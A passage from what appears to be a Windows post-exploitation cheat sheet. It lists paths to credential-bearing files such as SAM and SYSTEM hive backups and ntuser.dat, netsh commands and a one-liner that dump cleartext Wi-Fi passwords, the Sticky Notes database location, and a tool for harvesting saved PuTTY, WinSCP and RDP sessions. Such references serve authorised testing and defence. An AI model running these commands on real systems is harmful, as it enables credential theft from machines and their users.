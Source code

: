 ### Other files

```
%SYSTEMDRIVE%\pagefile.sys
%WINDIR%\debug\NetSetup.log
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software, %WINDIR%\repair\security
%WINDIR%\iis6.log
%WINDIR%\system32\config\AppEvent.Evt
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
%WINDIR%\system32\CCM\logs\*.log
%USERPROFILE%\ntuser.dat
%USERPROFILE%\LocalS~1\Tempor~1\Content.IE5\index.dat
%WINDIR%\System32\drivers\etc\hosts
C:\ProgramData\Configs\*
C:\Program Files\Windows PowerShell\*
dir c:*vnc.ini /s /b
dir c:*ultravnc.ini /s /b
```

### Wifi passwords

Find AP SSID

```
netsh wlan show profile
```

Get Cleartext Pass

```
netsh wlan show profile <SSID> key=clear
```

Oneliner method to extract wifi passwords from all the access point.

```
cls & echo. & for /f "tokens=4 delims=: " %a in ('netsh wlan show profiles ^| find "Profile "') do @echo off > nul & (netsh wlan show profiles name=%a key=clear | findstr "SSID Cipher Content" | find /v "Number" & echo.) & @echo on
```

### Sticky Notes passwords

The sticky notes app stores it's content in a sqlite db located at `C:\Users\<user>\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite`

### Passwords stored in services

Saved session information for PuTTY, WinSCP, FileZilla, SuperPuTTY, and RDP using [SessionGopher](https://github.com/Arvanaghi/SessionGopher)

